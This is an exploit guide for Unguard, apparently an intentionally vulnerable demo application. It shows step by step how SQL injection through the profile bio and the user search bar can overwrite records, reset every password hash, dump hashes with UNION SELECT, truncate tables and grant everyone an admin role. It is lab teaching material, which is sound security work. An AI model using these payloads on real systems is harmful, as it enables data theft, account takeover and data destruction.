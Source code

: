 # SQL Injection

Utilizing [SQL injection](https://owasp.org/www-community/attacks/SQL_Injection) can lead to sensitive data being read
and/or databases to be modified (Insert/Update/Delete).
In addition, administrative operations such as shutting down the DBMS can also be completed.

Unguard provides the functionality to upload a biography text for each user, and as the string is not checked before
being inserted into an SQL statement, it is possible to insert SQL commands which will then be run. Additionally, the users page that shows all users on the system has a search bar, into which SQL statements can be injected.

## Preconditions and Requirements

For this exploit to work you need:

* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* (optional) [unguard-exploit-toolkit](../../INSTALL.md) set up

## Exploitation

To inject an SQL command, you simply need to log into Unguard, go to your profile page or to the users page, and then include some
SQL statements in the bio/searchbar which need to be properly prepared (see the next chapter "w/o Toolkit CLI").

### w/o Toolkit CLI

SQL injections are possible via the frontend. As mentioned before, you can use the bio on the profile page or the search bar on the users page to include SQL
code. However, since the bio is stored in the Redis database and the user data accessed via the users page is stored in the MariaDB database, you have access to different tables depending on whether you exploit the bio or the users page search text.

An example for an SQL statement to run using the bio:

```sql
UPDATE bio
SET bio_text = 'injected'
WHERE 1 = 1;
```

This will set the bio_text to 'injected' for every user that already had a bio set.

In order to inject this into the database, the content of the bio needs to be adapted slightly:

1. Bio already exists (button says 'Update Bio')

```
' WHERE 0 = 1; UPDATE bio SET bio_text = 'injected' WHERE 1 = 1; --
```

As you can see, the `'` in the beginning as well as the `--` in the end are added to allow the statement to be
run without causing an error.

2. Bio doesn't yet exist (button says 'Add Bio')

```
'); UPDATE bio SET bio_text = 'injected' WHERE 1 = 1; --
```

In this case, the beginning has to be slightly different to accommodate the syntax of the ```INSERT INTO``` statement.

An example for an SQL statement to run using the user searchbar:

```sql
UPDATE users 
SET password_hash='$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda'
WHERE 1 = 1;
```

This will set every user's password to 'password'.

To have this executed on the database, you need to modify the SQL command:
```
'; UPDATE users SET password_hash='$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda' WHERE 1 = 1; --
```

If you want to see the results of a SELECT operation, you can use the UNION keyword:
```
' UNION SELECT id+9999, username, password_hash FROM users; --
```

This will display the password hash beneath the username for each user.

The statements you can execute on the users page are somewhat limited. SELECT, INSERT and UPDATE all work, and so does SHUTDOWN, but REMOVE, TRUNCATE, and DDL statements do not. This appears to be a limitation of the Go MySQL driver, which seemingly requires that these statements be executed with the Go method `Exec` and not with `QueryRows`, the method used in the Go code.


### With Toolkit CLI

Using the `ug-exploit` tool, SQL statements can be injected.
Make sure to use `ug-exploit login` first, as you need to be logged in to post a bio.

Afterwards, use `ug-exploit sql-inject-redis` and type your desired command if you want to inject into the Redis database, or use `ug-exploit sql-inject-mariadb` to inject into the MariaDB database.
When using the CLI, you only need to specify the SQL statement to be injected. In this example,
your input would just need to be:

```sql
UPDATE bio
SET bio_text = 'injected'
WHERE 1 = 1;
```

or, alternatively:

```sql
UPDATE users 
SET password_hash='$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda'
WHERE 1 = 1;
```

With the Redis database, the returned status code for this exploit will always be 500, no matter if it was successful or not. With the MariaDB database, 200 means that the statement was successfully executed, and 500 means that there was an error.

#### Examples

Deleting all entries of the table (Redis):
```h2
TRUNCATE TABLE bio;
```

Giving everybody the AD_MANAGER role (MariaDB):
```sql
INSERT INTO users_roles (user_id, role_id) SELECT id AS user_id, (SELECT id FROM roles where name='AD_MANAGER') AS role_id FROM users WHERE id > 1;
```

## Further Details

* [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
